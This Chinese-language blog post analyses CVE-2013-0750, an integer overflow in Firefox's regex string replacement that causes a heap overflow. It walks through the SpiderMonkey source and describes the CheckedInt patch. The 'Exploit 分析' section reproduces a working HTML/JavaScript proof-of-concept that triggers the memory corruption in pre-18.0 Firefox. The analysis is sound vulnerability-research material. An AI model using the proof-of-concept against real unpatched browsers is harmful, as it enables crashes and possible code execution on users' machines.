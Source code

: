 ```yaml
---
title: CVE-2013-0750 漏洞研究
toc: true
date: 2024-12-12 17:29:44
updated: 2024-12-12 17:29:44
categories: Vulnerability Investigation
---
```


版本号小于 18.0 的 Firefox 中，JavaScript 引擎在解析字符串替换操作时存在整数溢出，导致分配国小的堆内存造成溢出进而导致任意代码执行

影响范围:

Mozilla Seamonkey 1.0 - 2.14
Mozilla Thunderbird 0.1 - 17.0
Mozilla Firefox 0.1 - 17.3
Suse Linux Enterprise Desktop 10/11
Suse Linux Enterprise Server 10/11
Suse Linux Enterprise Software Development KIT 10/11
Opensuse Opensuse 11.4
Opensuse Opensuse 12.2
Opensuse Opensuse 12.1
Redhat Enterprise Linux Server 5.0/6.0
Redhat Enterprise Linux Workstation 5.0/6.0
Redhat Enterprise Linux Desktop 5.0/6.0
Redhat Enterprise Linux EUS 5.9/6.3
Canonical Ubuntu Linux 11.10
Canonical Ubuntu Linux 12.10
Canonical Ubuntu Linux 12.04
Canonical Ubuntu Linux 10.04

<!--more-->

## 漏洞分析

Firefox 是开源的，可直接通过源码静态分析漏洞成因。以下分析以 [Firefox 17.0](http://releases.mozilla.org/pub/mozilla.org/firefox/releases/17.0/source/firefox-17.0.source.tar.bz2) 为例

调试运行源码编译并开启 enable-debug 选项的 Firefox 并打开样本后程序触发 Access Violation 异常而中断，由于有源码故通过栈回溯可发现函数调用链为 `ReplaceRegExpCallback` -> `DoReplace` -> `Vector`，可定位到 Crash Point 位于 `mozilla-release/js/src/jsstr.cpp` 的 2067 行，相关代码如下

```C++
/*
 * Precondition: |rdata.sb| already has necessary growth space reserved (as
 * derived from FindReplaceLength).
 */
static void
DoReplace(JSContext *cx, RegExpStatics *res, ReplaceData &rdata)
{
    JSLinearString *repstr = rdata.repstr;
    const jschar *cp;
    const jschar *bp = cp = repstr->chars();

    const jschar *dp = rdata.dollar;
    const jschar *ep = rdata.dollarEnd;
    for (; dp; dp = js_strchr_limit(dp, '$', ep)) {
        /* Move one of the constant portions of the replacement value. */
        size_t len = dp - cp;
        rdata.sb.infallibleAppend(cp, len);
        cp = dp;

        JSSubString sub;
        size_t skip;
        if (InterpretDollar(cx, res, dp, ep, rdata, &sub, &skip)) {
            len = sub.length;
            rdata.sb.infallibleAppend(sub.chars, len); //！ Crash Point
            cp += skip;
            dp += skip;
        } else {
            dp++;
        }
    }
    rdata.sb.infallibleAppend(cp, repstr->length() - (cp - bp));
}

static bool
ReplaceRegExpCallback(JSContext *cx, RegExpStatics *res, size_t count, void *p)
{
    ReplaceData &rdata = *static_cast<ReplaceData *>(p);

    rdata.calledBack = true;
    size_t leftoff = rdata.leftIndex;
    size_t leftlen = res->matchStart() - leftoff;
    rdata.leftIndex = res->matchLimit();

    size_t replen = 0;  /* silence 'unused' warning */
    if (!FindReplaceLength(cx, res, rdata, &replen))
        return false;

    size_t growth = leftlen + replen;
    if (!rdata.sb.reserve(rdata.sb.length() + growth))
        return false;

    JSLinearString &str = rdata.str->asLinear();  /* flattened for regexp */
    const jschar *left = str.chars() + leftoff;

    rdata.sb.infallibleAppend(left, leftlen); /* skipped-over portion of the search value */
    DoReplace(cx, res, rdata);
    return true;
}
```

Crash Point 处为 `rdata.sb` 的 `infallibleAppend` 方法调用，`DoReplace` 函数内未发现 `rdata.sb` 存在问题操作，污点分析到 `DoReplace` 的主调函数 `ReplaceRegExpCallback`，发现可疑操作 `rdata.sb.reserve(rdata.sb.length() + growth)`。在 `ReplaceRegExpCallback` 下断点进行动态分析发现执行到 `rdata.sb.reserve(rdata.sb.length() + growth)` 时 `growth` 为 0，很像整数溢出后的结果。对 `growth` 进行污点分析，溯源到 `FindReplaceLength` 函数，其相关代码如下

```C++
static bool
FindReplaceLength(JSContext *cx, RegExpStatics *res, ReplaceData &rdata, size_t *sizep)
{
    ...
    JSString *repstr = rdata.repstr;
    size_t replen = repstr->length();
    for (const jschar *dp = rdata.dollar, *ep = rdata.dollarEnd; dp;
         dp = js_strchr_limit(dp, '$', ep)) {
        JSSubString sub;
        size_t skip;
        if (InterpretDollar(cx, res, dp, ep, rdata, &sub, &skip)) {
            replen += sub.length - skip;
            dp += skip;
        } else {
            dp++;
        }
    }
    *sizep = replen;
    return true;
}
```

注意到可疑操作 `replen += sub.length - skip;`，在该处下条件断点进行动态分析。发现 `replen` 在循环中每次递增 0xFFFFE，在循环结束后溢出为 0。`ReplaceRegExpCallback` 中的 `growth` 变量因此变小，使得 `rdata.sb` 的 `reserve` 方法为字符串替换分配的堆块过小，并在 `DoReplace` 函数内进行字符串替换时因预留空间不足发生堆溢出，程序崩溃

## 漏洞利用

该漏洞尚未发现通用的漏洞利用方式，令人感慨

## Exploit 分析

POC 来自于 [Bugzilla](#reference)

```HTML
<html>
    <script type="text/javascript">
 
        function puff(x, n){
            while(x.length<n) x+=x;
            x = x.substring(0, n);
            return x;
        }
        var x = "1";
        var rep = "$1";
 
        x = puff(x, 1<<20);
        rep = puff(rep, 1<<16);
        y = x.replace(/(.+)/g, rep);
        alert(y.length);
 
    </script>
</html>
```

`puff` 函数会将字符串自我凭借到指定长度，POC 通过该函数创建了长度为 2^20 的字符串 `x` 和长度为 2^16 的字符串 `rep` 且 `rep` 内包含了大量与 `x` 相似的字串，随后通过正则表达式使用 `replace` 方法对字符串进行替换。由于字符串的长度惊人，故其得以触发上述整数溢出漏洞

## 漏洞修复

Patch 后 `replen` 变量类型从 `size_t` 变成了 `CheckedInt<uint32_t>`，该类定义在 CheckedInt.h 头文件中，提供了检测整数值是否在有效范围内的 `isValid` 方法。同时 `FindReplaceLength` 函数将在循环处理 `replen` 时对其大小进行判断确保 `replen` 为正整数递增，循环结束后会再调用 `isValid` 方法判断 `replen` 是否溢出，是则会报告溢出并返回失败

## Reference

[NVD - CVE-2013-0750](https://nvd.nist.gov/vuln/detail/CVE-2013-0750)
[CVE - CVE-2013-0750](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-0750)
[Github - CVE-2013-0750](https://github.com/advisories/GHSA-f77x-4q67-r7px)
[Bugzilla - String Replacement Heap Corruption Remote Code Execution Vulnerability (ZDI-CAN-1473)](https://bugzilla.mozilla.org/show_bug.cgi?id=805121)
[漏洞战争](https://book.douban.com/subject/26830238/)
